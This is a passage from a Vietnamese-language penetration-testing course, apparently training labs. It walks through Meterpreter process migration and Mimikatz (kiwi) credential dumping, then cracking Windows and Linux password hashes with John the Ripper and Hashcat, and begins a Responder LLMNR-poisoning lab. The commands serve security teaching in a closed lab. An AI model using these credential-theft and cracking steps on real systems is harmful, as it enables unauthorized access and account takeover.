Hãy cùng xem lại phiên làm việc hiện tại bằng cách chạy lệnh này `sysinfo`.

```bash
sysinfo
```



Như chúng ta thấy ở trên, hệ thống mục tiêu là 64-bit, nhưng tiến trình Meterpreter lại là `32-bit`. Để thực hiện tác vụ tiếp theo, chúng ta cần ở trong tiến trình `SYSTEM 64-bit`.

Hãy tìm các tiến trình SYSTEM 64-bit trên mục tiêu bằng lệnh sau `ps`. Chúng ta cần tìm các tiến trình 64-bit (`-A x64`) đang chạy với quyền SYSTEM (`-s`, chữ s viết thường).

```bash
ps -A x64 -s
```



> Mã định danh quy trình sẽ khác nhau: Các ID tiến trình hiển thị ở trên sẽ khác với những gì bạn thấy trên hệ thống của mình.

Như bạn thấy trong kết quả đầu ra ở trên, sẽ có một số tiến trình SYSTEM 64-bit. Chúng ta cần xác định một tiến trình để chuyển đổi sang.

> Di chuyển quy trình: Khi di chuyển dữ liệu, không nên di chuyển vào bất kỳ tiến trình nào có tên là `svchost.exe`. Trong thực tế, khi chọn một tiến trình để di chuyển vào, hãy nghĩ đến những tiến trình ít có khả năng gây ra tác động đáng kể đến hệ thống nếu tiến trình đó gặp sự cố. Một lựa chọn phổ biến là spoolsv(Print Spooler), vì nó không cần thiết trên hầu hết các hệ thống.

Sau đó, chúng ta sẽ chuyển sang một trong các tiến trình SYSTEM 64-bit (`spoolsv.exe`) bằng lệnh sau:

```bash
migrate -N spoolsv.exe
```



Hãy kiểm tra xem Meterpreter của bạn có phải là phiên bản 64-bit hay không bằng cách chạy lệnh bên dưới và phân tích dòng lệnh Meterpreter. Dòng lệnh Meterpreter lúc này sẽ hiển thị như sau `x64`:

```bash
sysinfo
```



Giờ đây, khi đã ở trong tiến trình 64-bit, chúng ta có thể tải `Mimikatz` bằng lệnh sau:

```bash
load kiwi
```



Hãy cùng xem các lệnh mới mà chúng ta có thể sử dụng bằng cách chạy lệnh sau `help`:

```bash
help
```





Bây giờ chúng ta hãy lấy mật khẩu từ RAM bằng cách chạy lệnh sau:

```bash
creds_all
```



Chúng ta thấy thông tin về người dùng hiện đang đăng nhập (`sec560`). Chúng ta cũng thấy mã băm NT của tài khoản người dùng sec560.

Để hoàn thành bài thực hành này, hãy thoát khỏi phiên Meterpreter của bạn:

```bash
exit
```

## Phần kết luận

Trong bài thực hành này, chúng ta đã chạy mô-đun `psexec` Metasploit, xem xét các tùy chọn cấu hình và phân tích các hoạt động từng bước của nó để giành quyền thực thi mã trên máy mục tiêu. Chúng ta đã sử dụng payload để `psexec` chạy `meterpreter/reverse_tcp` trên máy mục tiêu với `SYSTEM` quyền cục bộ, sau đó sử dụng quyền này để chiếm thêm các quyền khác và thu thập các mã băm thông qua mô-đun `post/windows/gather/smart_hashdump`. Ngoài ra, chúng ta có thể thu thập thông tin đăng nhập dạng văn bản gốc của người dùng đã đăng nhập bằng Mimikatz (kiwi). Mỗi khả năng này đều rất hữu ích trong một bài kiểm thử xâm nhập.

# Lab 3.5. Giải mã bằng John the Ripper và Hashcat

## Mục tiêu

- Sử dụng John the Ripper để giải mã một số hash từ Windows và Linux.

- Hướng dẫn sử dụng Hashcat để giải mã mật khẩu từ hệ thống Windows và Linux.

- Để phân tích cách các tập tin quy tắc của Hashcat có thể giúp giải mã băm thành công hơn.

- Để so sánh hiệu năng của Hashcat với hiệu năng của John the Ripper.

## Thiết lập phòng thí nghiệm

Máy ảo được sử dụng:

- Slingshot Linux.

Trong trường hợp bạn đã chạy bài thực hành này trước đây, hãy cùng nhau dọn dẹp một chút. Chúng ta hãy xóa các tệp pot của JtR và Hashcat.

```bash
rm /home/sec560/.local/share/hashcat/hashcat.potfile
rm ~/.john/john.pot
# Lệnh này không có đầu ra. Nếu các tập tin đã được dọn dẹp, bạn sẽ nhận được thông báo lỗi. Lỗi đó là bình thường.
```

## Hướng dẫn thực hành từng bước

### 1. Benchmark John

John the Ripper (John) đã được cài đặt trong máy ảo của bạn. Trước tiên, hãy khởi chạy John ở chế độ thử nghiệm và kiểm tra một vài loại hàm băm khác nhau.

Hãy xem John có thể bẻ khóa mật khẩu LM nhanh đến mức nào.

```bash
john --test --format=lm
```



> Tốc độ thực tế của bạn sẽ khác với tốc độ hiển thị ở trên.

Hãy xem John có thể giải mã mật khẩu `md5crypt` nhanh đến mức nào.

```bash
john --test --format=md5crypt
```



Chúng ta sẽ so sánh tốc độ này với Hashcat ở phần sau của bài thực hành này.

### 2. Giải mã băm Windows cùng John (LM)

Bây giờ chúng ta sẽ giải mã một số mã băm trong một `web01.hashes` tệp tin nằm trong thư mục labs của máy ảo Slingshot trong khóa học. Đây là thông tin tương tự mà chúng ta đã lấy được từ hệ thống Web01 (10.130.10.25) trong bài thực hành `Trích xuất mật khẩu`.

Theo mặc định, John sẽ tập trung vào các hàm băm LM .

Hãy cho John chống lại với `~/labs/web01.hashes`.





John đã phát hiện ra mã băm là LM (LANMAN). Lưu ý rằng mật khẩu mà John đã bẻ khóa được viết `HOA TOÀN BỘ`. Đó là vì LM chuyển đổi mọi thứ thành chữ hoa. Ngoài ra, hãy lưu ý cách John bẻ khóa bảy ký tự đầu tiên của mật khẩu LM một cách riêng biệt với bảy ký tự tiếp theo, coi mỗi nửa như một mật khẩu khác nhau. Nửa đầu của mật khẩu được biểu thị bằng username:1, và nửa sau là username:2.

Bạn sẽ nhận thấy rằng mật khẩu của hầu hết các tài khoản (hãy xem `dmckenzie` và `ckhan`) đều có mật khẩu LM trống. Tuy nhiên, người dùng đó vberrylại có một mã băm LM, và John đã giải mã được nó! Không có người dùng `vberry:1` hoặc `vberry:2`, mà chỉ có phần đầu tiên và phần thứ hai của mật khẩu. Kết hợp 1 và 2 để có được mật khẩu LM đầy đủ, `MIMIGOTKNENZ2G`. Mật khẩu này khá ngẫu nhiên và rất khó có khả năng chúng ta đoán được, nhưng vì cơ chế lưu trữ của LM rất kém, chúng ta có thể giải mã mã băm này. Hãy nhớ rằng thuật toán băm LM chuyển đổi mật khẩu thành chữ hoa, sau đó chia nó thành hai phần. Điều này cho phép chúng ta giải mã một nửa mật khẩu mỗi lần, và chúng ta không cần phải lo lắng về chữ hoa chữ thường!

Nhấn phím mũi tên lên và chạy lại lệnh. Lưu ý rằng ở lần chạy thứ hai này, các mật khẩu tương tự không bị bẻ khóa!

```bash
john ~/labs/web01.hashes
```



Nếu John đã bẻ khóa được mật khẩu, hệ thống sẽ không cố gắng bẻ khóa mật khẩu đó lần nữa.

Để xem toàn bộ mật khẩu (ghép hai phần gồm bảy ký tự của mật khẩu LM lại với nhau) mà John đã bẻ khóa được, chúng ta có thể chạy nó với tùy chọn `--show`:

```bash
john ~/labs/web01.hashes --show
```



Lệnh này tìm kiếm `john.pot` các mã băm bên trong tệp `web01.hashes` để có thể in ra mật khẩu đầy đủ liên kết với người dùng. Hãy cùng xem tệp pot.

Sử dụng `cat` để kiểm tra tập tin `~/.john/john.pot`.

```bash
cat ~/.john/john.pot
```



Trên các hệ thống hiện đại, việc có các hàm băm mật khẩu LM rất hiếm gặp. Tuy nhiên, nó vẫn thường xuyên xảy ra trên các tên miền có tài khoản cũ. Theo kinh nghiệm của tác giả, điều này xảy ra trong khoảng 15% môi trường. Đây vẫn là một hình thức tấn công khả thi!

Hãy sử dụng John và giải mã băm NT bằng cách sử dụng tùy chọn `--format=nt` đó.

```bash
john --format=nt ~/labs/web01.hashes
```



Nhấn `CTRL-C` hoặc `q` để dừng quá trình bẻ khóa. Bạn sẽ thấy quá trình bẻ khóa diễn ra chậm hơn ở đây. Các mật khẩu trên hệ thống mục tiêu không có trong danh sách mật khẩu mặc định của John. Hãy nhớ rằng, với định dạng LM, mật khẩu được chuyển đổi thành chữ hoa và tách ra. Định dạng NT không chuyển đổi mật khẩu cũng như không tách mật khẩu. Điều này có nghĩa là mật khẩu khó bẻ khóa hơn.

Trong trường hợp này, chúng ta có cả mã băm mật khẩu LM và NT. Mã băm LM đã được giải mã rất nhanh và cho chúng ta mật khẩu viết hoa. Chúng ta có thể sử dụng mật khẩu viết hoa này cùng với mật khẩu NT để khôi phục mật khẩu gốc. Nếu xem lại, chúng ta có thể thấy rằng chúng ta đã giải mã được mã băm LM `vberry` nhưng chưa giải mã được mã băm NT. Chúng ta có thể sử dụng một công cụ trong Metasploit để giúp hoàn tất quá trình giải mã để có được mật khẩu phân biệt chữ hoa chữ thường. Trước tiên, hãy xem dòng `vberry` từ tệp tin `web01.hashes`.



Như các bạn đã nhớ, mã băm đầu tiên là mã băm LM và mã băm thứ hai là mã băm NT. Chúng ta sẽ sử dụng mật khẩu viết hoa so với mã băm NT để lấy mật khẩu phân biệt chữ hoa chữ thường.

Phiên bản Jumbo của JtR bao gồm các tính năng bổ sung, trong đó có `--loopback` tùy chọn này. Tùy chọn này cho phép chúng ta sử dụng tệp pot (nơi lưu trữ các mã băm/mật khẩu đã được bẻ khóa) làm đầu vào cho công cụ bẻ khóa của mình.

```bash
john --format=nt --loopback ~/labs/web01.hashes
```



Chúng tôi đã lấy được mã băm LM, giải mã nó, sau đó sử dụng mã băm không phân biệt chữ hoa chữ thường để giải mã mã băm NT phân biệt chữ hoa chữ thường! Rất khó có khả năng chúng tôi có thể đoán được toàn bộ mã băm phân biệt chữ hoa chữ thường `mImiGOTKnENZ2g`, nhưng cơ chế lưu trữ LM đã làm cho việc này trở nên dễ dàng đến mức gần như hiển nhiên!

### 3. Giải mã mật khẩu cùng John và Wordlist

Chúng ta không còn mã băm LM nào nữa, vì vậy bây giờ chúng ta cần tấn công mã băm NT phân biệt chữ hoa chữ thường. Hãy sử dụng danh sách mật khẩu `rockyou.txt`. Danh sách này được lấy từ vụ tấn công trang web RockYou năm 2009. Trang web này lưu trữ mật khẩu không được mã hóa, ở dạng văn bản rõ ràng mà bất kỳ ai cũng có thể đọc được. Chúng ta sẽ sử dụng danh sách này vì chúng ta biết rằng hàng triệu người dùng đã sử dụng những mật khẩu này trong quá khứ. Một số người dùng có thể chọn (hoặc sử dụng lại) mật khẩu từ danh sách này. Danh sách RockYou nằm ở địa chỉ `/opt/passwords/rockyou.txt`, và chúng ta có thể sử dụng nó với tùy chọn `--wordlist`.

```bash
john --format=nt --wordlist=/opt/passwords/rockyou.txt ~/labs/web01.hashes
```



Chúng ta thấy ở đây có 10 người dùng có mật khẩu nằm trong tập tin này!

### 4. Giải mã mật khẩu Linux cùng John

Bây giờ hãy thử bẻ khóa một số mật khẩu Linux. Chúng tôi đã lưu tệp `/etc/shadow` từ `Web10 (10.130.10.10)` dưới dạng `~/labs/web10.shadow`.

Hãy chạy John so sánh với tập tin shadow.

```bash
john ~/labs/web10.shadow
```



Hãy để nó chạy trong một phút, sau đó nhấn `CTRL-C` hoặc `q` để thoát. John sẽ không thể bẻ khóa mật khẩu này dựa trên danh sách mặc định. Chúng ta hãy sử dụng danh sách RockYou một lần nữa.

```bash
john ~/labs/web10.shadow --wordlist=/opt/passwords/rockyou.txt
```



Có lẽ bạn còn nhớ John đã nhanh chóng quét qua danh sách RockYou bằng các hàm băm NT như thế nào. Bạn sẽ nhận thấy rằng thuật toán `sha512crypt` băm này mất nhiều thời gian hơn để giải mã. Thuật toán này thêm một chuỗi muối (salt) và nhiều vòng băm, không giống như NT không có muối và chỉ có một vòng băm.

Nếu bạn để chương trình này chạy đủ lâu, bạn sẽ bẻ khóa được 11 mật khẩu, nhưng hiện tại thì...

```bash
Press q or CTRL-c to exit John
```

### 5. Những điều cơ bản về Hashcat

Hãy gọi Hashcat với tùy chọn `--help` để xem tài liệu tích hợp sẵn của Hashcat. Vì tài liệu khá đồ sộ, chúng ta hãy chuyển hướng nó qua một hàm xử lý `less` để phân trang:

```bash
hashcat --help | less
```

Hãy xem qua các tùy chọn dòng lệnh của Hashcat — có RẤT NHIỀU tùy chọn ở đây. Trong bài thực hành này, chúng ta sẽ khám phá một số tùy chọn hữu ích nhất.

Trong kết quả đầu ra, ta có thể thấy rằng Hashcat yêu cầu một tham số `-m` theo sau là một loại băm (`hash-type`), là một số được chọn từ hơn 275 loại băm mà chúng ta có thể giải mã. Chúng ta sẽ tìm hiểu một số loại băm cụ thể sau. Nhưng trước khi xem xét điều đó, hãy xem xét tùy chọn `-a` chế độ tấn công (attack mode), nghĩa là Hashcat sẽ sử dụng từ điển của nó như thế nào/có sử dụng hay không. Tùy chọn `-a` này hỗ trợ các giá trị sau:

- `0`: Straight. Chế độ này sử dụng các từ điển như chúng xuất hiện trong từ điển, với các quy tắc được áp dụng cho chúng theo quy định của tùy chọn `-r` (nếu có). Ví dụ: `letmein` và `password`.

- `1`: Combination. Chế độ này sẽ lấy từng từ trong từ điển và ghép nó với từng từ khác trong từ điển, về cơ bản là bình phương số lượng mật khẩu tiềm năng từ một tập tin từ. Nó cũng sẽ áp dụng các quy tắc được chỉ định bởi `-r` tùy chọn (nếu có) cho các từ kết hợp thu được. Ví dụ: `letmeinpassword` và `passwordletmein`.

- `3`: Brute Force. Chế độ này thử tất cả các mật khẩu tiềm năng trong một không gian khóa nhất định, lặp qua tất cả các ký tự. Ví dụ: `0000`, `0001`, `0002`, v.v.

- `6`: Hybrid + Mask. Chế độ này sử dụng từ điển nhưng sau đó thêm vào một thành phần tấn công vét cạn. Ví dụ: `letmein0000`, `password0000`, `letmein0001`, v.v.

Trong bài thực hành này, chúng ta sẽ sử dụng hình thức `-a 0` tấn công đơn giản và phổ biến nhất. Sau này trong bài thực hành, chúng ta sẽ sử dụng tùy chọn `-r` để chỉ định các quy tắc thực hiện việc biến đổi từ ngữ dựa trên từ điển, đồng thời vẫn áp dụng kiểu tấn công mà chúng ta đã chọn `0`.

Tiếp theo, chúng ta hãy tìm kiếm các số cụ thể liên kết với các loại hàm băm nhất định để có thể chỉ định loại nào cần sử dụng với tùy chọn `-m`. Chúng ta chỉ cần chuyển hướng đầu ra của lệnh trợ giúp của Hashcat grepđể tìm kiếm một số loại hàm băm phổ biến. Hãy bắt đầu bằng cách tìm kiếm các hàm băm `LANMAN`, viết tắt là `LM` bởi Hashcat:

```bash
hashcat --help | grep LM
```



Trong kết quả đầu ra, bạn sẽ thấy một dòng cho biết `3000 | LM`. điều này, cho thấy để giải mã các hàm băm LM, chúng ta gọi Hashcat với `-m 3000`. Chúng ta cũng có thể thấy các số mà Hashcat liên kết với NTLMv1 và NTLMv2 trong kết quả đầu ra của nó ở đây vì mỗi số đều khớp với LM mà chúng ta đã tìm kiếm bằng lệnh grep.

Để xác định số loại băm cần thiết để bẻ khóa các băm MD5 Linux có thêm muối (còn được gọi là `md5crypt`), vui lòng chạy lệnh sau:

```bash
hashcat --help | grep md5crypt
```



Ở đây, chúng ta thấy rằng chúng ta nên sử dụng Hashcat `-m 500` để giải mã các hàm băm này, vốn được liên kết với "Hệ điều hành" .

Cuối cùng, hãy cùng tìm hiểu cách xác định hàm băm SHA512 .

```bash
hashcat --help | grep sha512
```



Ta có thể thấy rằng đối với mật khẩu SHA512 trong hệ điều hành, Hashcat sử dụng `-m 1800`.

Bây giờ chúng ta hãy thực hiện một số bài kiểm tra hiệu năng, bắt đầu với `-m 3000`, dành cho các hàm băm LM . Lưu ý rằng chúng ta sẽ gọi Hashcat với `-w` 3 cờ, có nghĩa là chúng ta muốn Hồ sơ khối lượng công việc (`-w`) số 3. Các tùy chọn khác nhau cho `-w` bao gồm:

- `1`: Mức độ ảnh hưởng thấp. Tác động tối thiểu đến hiệu năng giao diện người dùng và tiêu thụ điện năng thấp.

- `2`: Mặc định. Có tác động đáng kể đến giao diện người dùng và mức tiêu thụ điện năng.

- `3`: Cao. Tiêu thụ điện năng cao và giao diện người dùng có thể bị treo.

- `4`: Ác mộng. Mức tiêu thụ điện năng khủng khiếp và máy chủ không có giao diện người dùng vì giao diện đồ họa không đủ CPU hoặc GPU để xử lý.

Trong bài thực hành này, chúng ta sẽ sử dụng `-w 3` vì thường có thể đạt được hiệu suất cao hơn khoảng 30%, và giao diện người dùng đồ họa (GUI) sẽ đủ nhanh để chúng ta tiến hành thí nghiệm.

Tiếp theo, chúng ta hãy thực hiện một số phép đo hiệu năng của Hashcat đối với các thuật toán băm thông dụng.

Chúng ta sẽ bắt đầu với một bài kiểm tra hiệu năng để xem khả năng bẻ khóa loại băm `-m 3000`, còn được gọi là LM hoặc LANMAN .

```bash
hashcat -w 3 --benchmark -m 3000
```



Ở đây bạn có thể thấy hiệu suất tính bằng kilohashes mỗi giây (`kH/s`). Vui lòng ghi lại tốc độ bẻ khóa LM trên hệ thống của bạn bằng Hashcat:

Tiếp theo, chúng ta hãy xem xét hiệu năng của việc bẻ khóa các hàm băm MD5 có thêm muối (`md5crypt`) bằng cách chạy lệnh sau:



Vui lòng ghi lại tốc độ bẻ khóa md5crypt trên hệ thống của bạn bằng Hashcat:

Cuối cùng, hãy cùng xem xét các đặc điểm hiệu năng của sha512crypt, các hàm băm `$6$` được liên kết với một số máy Linux:


```bash
hashcat -w 3 --benchmark -m 1800
```



Vui lòng ghi lại tốc độ bẻ khóa sha512crypt trên hệ thống của bạn bằng Hashcat:

Hãy để ý rằng thuật toán bẻ khóa LM có hiệu suất cao nhất, tiếp theo là md5crypt , và sha512crypt còn chậm hơn nữa. Vui lòng so sánh thời gian thực hiện của LM và md5crypt với thời gian bạn đã ghi lại cho John the Ripper. Tùy thuộc vào phần cứng của bạn, bạn có thể thấy John nhanh hơn hoặc Hashcat nhanh hơn. Điều quan trọng ở đây là sử dụng thuật toán nào nhanh nhất trên phần cứng hiện có của bạn cho các loại hàm băm cụ thể mà bạn gặp phải trong quá trình kiểm thử xâm nhập.

### 6: Bẻ khóa bằng Hashcat

Chúng ta sẽ sử dụng Hashcat để bẻ khóa mật khẩu từ tệp `web01.hashes` trong thư mục `labs` và sử dụng danh sách mật khẩu RockYou. Mặc dù chúng ta có thể tấn công các hàm băm LM bằng hashcat (`-m 3000`), nhưng chúng ta sẽ tập trung vào các hàm băm NT .

Gọi Hashcat với Hồ sơ tải là 3 (`-w 3`) để sử dụng càng nhiều sức mạnh tính toán càng tốt trong khi vẫn giữ được một số quyền truy cập GUI, với chế độ tấn công không (`-a 0`) để sử dụng từ điển của chúng ta nguyên trạng để bẻ khóa loại băm 1000, là NT (`-m 1000`). Sau đó, chúng ta sẽ chỉ định tệp `web01.hashes` cần bẻ khóa và `rockyou.txt` làm từ điển của chúng ta, như sau.

```bash
hashcat -w 3 -a 0 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt
```



Như các bạn thấy, chúng ta đã bẻ khóa được 10 mật khẩu!

Bây giờ chúng ta hãy cùng xem xét các quy tắc có sẵn trong Hashcat.

```bash
ls /usr/local/share/doc/hashcat/rules/
```



Như bạn thấy, Hashcat có rất nhiều tập tin quy tắc khác nhau. Hãy cùng xem một trong những tập tin hữu ích nhất `best64.rule`:

```bash
head -n 30 /usr/local/share/doc/hashcat/rules/best64.rule
```



Khoảng trắng phía trên bị bỏ qua, nhưng nó giúp văn bản dễ đọc hơn. Điều đó `$0 $0` có nghĩa là `password00..`.

Trong tập tin quy tắc này, bạn thấy rằng mỗi từ được thử như nguyên mẫu (`:`), đảo ngược (`r`), và viết hoa toàn bộ (`u`), và kiểu chữ của ký tự đầu tiên được đảo ngược (`T0`). Ngoài ra, mỗi từ (`$`) được lấy và thêm một chữ số vào cuối (`$0`lên đến `$9`). Sau đó, mỗi từ có chữ số được lặp lại hai lần (`$0 $0`), lưu ý rằng khoảng trắng bị bỏ qua. Các quy tắc trong tập tin này còn tiếp tục và thường khá thông minh. Hãy áp dụng chúng vào nỗ lực bẻ khóa của chúng ta với tùy -rchọn chỉ định tập tin quy tắc này:

```bash
hashcat -w 3 -a 0 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt -r /usr/local/share/doc/hashcat/rules/best64.rule
```



> Chậm: Quá trình này có thể mất vài phút. Sau khi nhận được mật khẩu, bạn có thể nhấn nút qthoát và tiếp tục.

Công cụ này đã tìm thấy thêm hai mật khẩu nữa! Hãy chú ý trong kết quả ở trên rằng Hashcat đã loại bỏ 11 mã băm vì nó đã giải mã được chúng.

Khi quá trình đó hoàn tất, chúng ta hãy xem kết quả:

```bash
hashcat -m 1000 --username --show --outfile-format 2 ~/labs/web01.hashes
```



### 7. Hashcat và Masking

Các quy tắc được cung cấp bởi Hashcat rất tuyệt vời, nhưng chúng ta có thể tùy chỉnh chúng hơn nữa. Nếu muốn thêm tất cả các số có hai chữ số có thể, chúng ta có thể sử dụng `?d?d`. Nếu bạn nhìn kỹ vào `best64.rule`, bạn sẽ nhận thấy nó không sử dụng tất cả các số có hai chữ số. Hãy thực hiện một cuộc tấn công mặt nạ sử dụng tất cả các số có hai chữ số. Ngoài ra, hãy sử dụng một từ điển tiếng Anh làm danh sách mật khẩu cơ sở của chúng ta. Từ điển này nằm ở `/opt/passwords/english-dictionary-capitalized.txt`. Chúng ta sẽ thêm (thêm vào cuối mật khẩu dự đoán) bằng cách sử dụng chế độ `6` (chế độ `7` là prepend).

```bash
hashcat -w 3 -a 6 -m 1000 ~/labs/web01.hashes /opt/passwords/english-dictionary-capitalized.txt ?d?d
```



Nếu bạn đã từng tìm hiểu về mật khẩu, bạn có thể nhận thấy rằng mọi người thường chọn một từ, thêm một số, rồi đến một ký tự đặc biệt. Hãy sử dụng điều này như một lớp ngụy trang!

```bash
hashcat -w 3 -a 6 -m 1000 ~/labs/web01.hashes /opt/passwords/english-dictionary-capitalized.txt ?d?s
```



Chúng ta hãy thực hiện thêm một lượt nữa, nhưng lần này hãy sử dụng rockyou.txt.

```bash
hashcat -w 3 -a 6 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt ?d?s
```



Hãy cùng xem lại tất cả các mật khẩu mà chúng ta đã bẻ khóa được.

```bash
hashcat -m 1000 --username --show --outfile-format 2 ~/labs/web01.hashes
```



### 8: Bẻ khóa mật khẩu Linux bằng Hashcat

Hãy cùng nhau giải mã các hàm băm từ web10 bằng Hashcat, cụ thể là `$6$` các hàm băm liên quan đến sha512crypt.

Như chúng ta đã đề cập trước đó trong khóa học này, việc lấy những mật khẩu đã bị bẻ khóa và thêm chúng vào một tệp từ điển có thể rất hữu ích, để chúng ta không cần phải áp dụng lại các quy tắc biến đổi từ trước khi tìm lại mật khẩu khi nó được băm bằng một thuật toán khác. Nói cách khác, chúng ta đã biến đổi một số từ và bẻ khóa mã băm của chúng, vậy tại sao phải biến đổi những từ đó một lần nữa nếu chúng ta gặp cùng một mật khẩu với thuật toán băm khác? Chúng ta sẽ hiệu quả hơn nếu lấy những từ đã bị biến đổi và thêm chúng vào tệp danh sách từ của mình.

Hãy lưu tất cả các mật khẩu mà chúng ta đã bẻ khóa được từ hệ thống Windows vào một tệp. Chúng ta sẽ sử dụng lệnh tương tự như trên, nhưng vì không cần tên người dùng nên chúng ta sẽ bỏ qua tùy chọn `--username` đó.

```bash
hashcat -m 1000 --show --outfile-format 2 ~/labs/web01.hashes | tee /tmp/passwords.txt
```



> Nếu bạn chưa giải mã được tất cả các mật khẩu.
> Một số thao tác bẻ khóa ở trên có thể mất khá nhiều thời gian, và chúng tôi đã khuyên bạn nên dừng quá trình bẻ khóa để tiết kiệm thời gian. Để tạo danh sách, hãy chạy các lệnh sau. Sao chép các lệnh bên dưới và dán chúng vào cửa sổ dòng lệnh của bạn.

```bash
echo 'Tibbetts3' > /tmp/passwords.txt
echo 'Oozle11' >> /tmp/passwords.txt
echo 'KAMTPS20!!tim' >> /tmp/passwords.txt
echo 'Patrique2238' >> /tmp/passwords.txt
echo 'Packardbell350' >> /tmp/passwords.txt
echo '2soWht!a' >> /tmp/passwords.txt
echo 'Angels100%' >> /tmp/passwords.txt
echo 'Chirmol01' >> /tmp/passwords.txt
echo 'BHLMSTz2' >> /tmp/passwords.txt
echo 'Warrior07' >> /tmp/passwords.txt
echo 'Hemocytogenesis42' >> /tmp/passwords.txt
echo 'Alphabet23' >> /tmp/passwords.txt
echo 'Smitten77' >> /tmp/passwords.txt
echo 'Civilness12' >> /tmp/passwords.txt
echo 'Gathering81' >> /tmp/passwords.txt
echo 'Antitoxin7!' >> /tmp/passwords.txt
echo 'Coronet7#' >> /tmp/passwords.txt
echo 'Metallica6&' >> /tmp/passwords.txt
```

Giờ hãy dùng Hashcat để giải mã một số hash của Linux!

```bash
hashcat -w 3 -a 0 -m 1800 ~/labs/web10.shadow /tmp/passwords.txt -r /usr/local/share/doc/hashcat/rules/best64.rule
```



> Ngoại lệ độ dài mã thông báo: Bạn sẽ thấy rất nhiều dòng báo lỗi "Token length exception" như thế này:
>
> `Hashfile '/home/sec560/labs/web10.shadow' on line 1 (root:*:18960:0:99999:7:::): Token length exception`. 
>
> Những dòng này không khớp với sha512cryptđịnh dạng vì các tài khoản không được thiết lập mật khẩu. Bạn có thể bỏ qua những cảnh báo này một cách an toàn.

Các phương án chúng tôi đã sử dụng là:

- `-w 3`: Khối lượng công việc "Cao".

- `-a 0`: Chế độ "thẳng", sử dụng từ điển mà không thay đổi gì.

- `-m 1800`: Chế độ băm của "sha512crypt 6 , SHA512 (Unix)"

- `~/labs/web10.shadow`: Tệp chứa các mã băm.

- `/tmp/passwords.txt`: Danh sách từ.

- `-r /usr/local/share/doc/hashcat/rules/best64.rule`: Tệp quy tắc Mangling

Bạn có thể nhấn phím `s` để xem trạng thái, trạng thái này cũng sẽ được hiển thị trên màn hình định kỳ. Khi quá trình chạy hoàn tất, hãy cùng xem kết quả:

```bash
hashcat -m 1800 --username --show --outfile-format 2 ~/labs/web10.shadow
```



Chúng tôi phát hiện ra rằng `abates` sử dụng cùng một mật khẩu trên cả hệ thống Windows và Linux.

Người dùng `wrobinson` sử dụng mật khẩu tương tự trên cả hai hệ thống. Người dùng đã chọn mật khẩu đó `Patrique2238` trên Windows và `Patrique223877` trên Linux.

Hãy cùng xem tệp potfile của hashcat:

```bash
cat ~/.local/share/hashcat/hashcat.potfile
```



Trong tập tin này, bạn sẽ thấy tất cả các mã băm và mật khẩu mà bạn đã giải mã được!

Chúng ta vừa thấy cách tạo ra các từ điển chuyên biệt về tên người dùng và mật khẩu đã bị bẻ khóa để nâng cao tỷ lệ thành công của Hashcat trong việc bẻ khóa mật khẩu.

## Phần kết luận

Trong bài thực hành này, chúng tôi đã sử dụng John để bẻ khóa mật khẩu Windows và Linux, và chúng tôi đã phân tích john.pottệp tin để xem John lưu trữ các mật khẩu đã được bẻ khóa thành công như thế nào. Mỗi kỹ thuật này đều hữu ích cho các chuyên gia kiểm thử xâm nhập để phân biệt mật khẩu và sử dụng chúng để có được quyền truy cập sâu hơn vào môi trường mục tiêu.

Ngoài ra, chúng tôi đã sử dụng Hashcat để bẻ khóa mật khẩu băm trên Windows và Linux, phân tích một số đặc điểm hiệu năng của Hashcat và so sánh chúng với John the Ripper. Đối với một bài kiểm thử xâm nhập, người kiểm thử nên đánh giá hiệu năng của John the Ripper và Hashcat trên phần cứng hiện có và xác định công cụ nào sẽ bẻ khóa mật khẩu nhanh hơn đối với các loại băm cụ thể gặp phải trong bài kiểm thử. Chúng tôi cũng đã xem xét cách áp dụng các quy tắc biến đổi từ ngữ vào các lần chạy Hashcat và cách tận dụng tên người dùng và mật khẩu đã bị bẻ khóa để tạo ra các từ điển mật khẩu tiềm năng mới cho Hashcat. Mỗi kỹ thuật này đều rất hữu ích trong kiểm thử xâm nhập thực tế.

# Lab 3.6. Responder

## Mục tiêu

- Để có được phản hồi thách thức NTLMv2 bằng cách lạm dụng LLMNR (sử dụng Responder)

- Để phá vỡ xác thực phản hồi NTLMv2 bằng cách sử dụng John The Ripper, hãy cung cấp cho chúng tôi một bộ thông tin đăng nhập hợp lệ.

- Để theo dõi quá trình trao đổi thử thách/phản hồi NTLMv2 qua SMB

- Sử dụng John the Ripper và hashcat để xác định mật khẩu từ các thông điệp xác thực NTLMv2 đã bị thu thập.

## Thiết lập phòng thí nghiệm

Các máy ảo được sử dụng:

- Slingshot Linux.

- Windows 10.

Bạn cần khởi động máy ảo Slingshot Ubuntu và Windows cho bài thực hành này. Từ máy ảo Slingshot Ubuntu, chúng ta sẽ sử dụng Responder để "tấn công" máy ảo Windows. Từ đây, mục tiêu của chúng ta là thu thập thông tin Thử thách/Phản hồi NTLMv2 và thử tấn công vét cạn ngoại tuyến. Vì Responder sử dụng multicast (và chúng ta muốn tránh việc sinh viên ảnh hưởng đến các sinh viên khác), nên các bộ điều hợp mạng VMware cho cả máy ảo Linux và Windows của bạn cần được thiết lập thành NAT (như đã giải thích ở Ngày 1) trước khi bắt đầu bài thực hành này.

Để đảm bảo điều này hoạt động đúng cách, hãy kiểm tra xem bạn có thể ping từ Linux sang Windows hay không.

## Hướng dẫn thực hành từng bước

### 1. Khởi động ứng dụng Responder

Hãy mở cửa sổ dòng lệnh trong Linux. Để chạy Responder, chúng ta cần quyền root, vì vậy hãy sử dụng lệnh sudođể nâng quyền lên root. Responder nằm trong thư mục `/opt/responder`.

```bash
sudo /opt/responder/Responder.py -I eth0
```







Responder sẽ cung cấp một đầu ra khá chi tiết. Bạn sẽ thấy một vài cảnh báo, mà bạn có thể bỏ qua một cách an toàn. Ví dụ, nó sẽ cho biết không thể bắt đầu lắng nghe trên một số cổng nhất định, vì chúng đã được sử dụng bởi các dịch vụ/ứng dụng khác trên máy Linux của bạn. Bạn có thể bỏ qua các lỗi; chúng ta không cần tất cả các mô-đun phải hoạt động. Bạn sẽ thấy một vài điều đáng chú ý:

